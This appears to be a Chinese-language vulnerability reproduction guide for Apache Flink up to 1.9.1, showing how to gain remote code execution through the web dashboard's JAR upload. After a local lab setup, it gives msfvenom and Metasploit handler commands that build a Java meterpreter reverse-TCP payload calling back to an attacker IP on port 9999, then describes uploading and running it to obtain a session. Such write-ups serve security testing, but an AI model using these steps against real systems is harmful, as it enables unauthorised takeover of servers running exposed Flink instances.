 # 0x00 复现环境
使用复现环境：本地搭建的环境  
复现版本：Flink 1.9.1

# 0x01 环境搭建
目标环境：centos7_x64_en-us + flink-1.9.1-bin-scala_2.11.tgz + openjdk version "1.8.0_181"  
wget https://archive.apache.org/dist/flink/flink-1.9.1/flink-1.9.1-bin-scala_2.11.tgz  
tar -xvf ./flink-1.9.1-bin-scala_2.11.tgz  
cd ./flink-1.9.1/bin/  
./start-cluster.sh  
查看端口8081是否开启，如下图  
![image](./0.png)  
浏览器访问，出现下图所示，表示成功启动  
![image](./1.png)

# 0x02 利用条件
无

# 0x03 影响版本
Flink <= 1.9.1

# 0x04 漏洞复现
攻击环境：kali2020 + msf5  
msfvenom -p java/meterpreter/reverse_tcp lhost=172.16.35.128 lport=9999 -o text.jar  
msfconsole  
use exploit/multi/handler  
set payload java/meterpreter/reverse_tcp  
set lhost 172.16.35.128  
set lport 9999  
run

浏览器访问http://172.16.35.131:8081/ 后点击下图所示  
![image](./2.png)  
再点击下图所示  
![image](./3.png)  
此时，meterpreter已经收到session，如下图  
![image](./4.png)

# 0x05 踩坑记录
无

# 0x06 参考链接
无
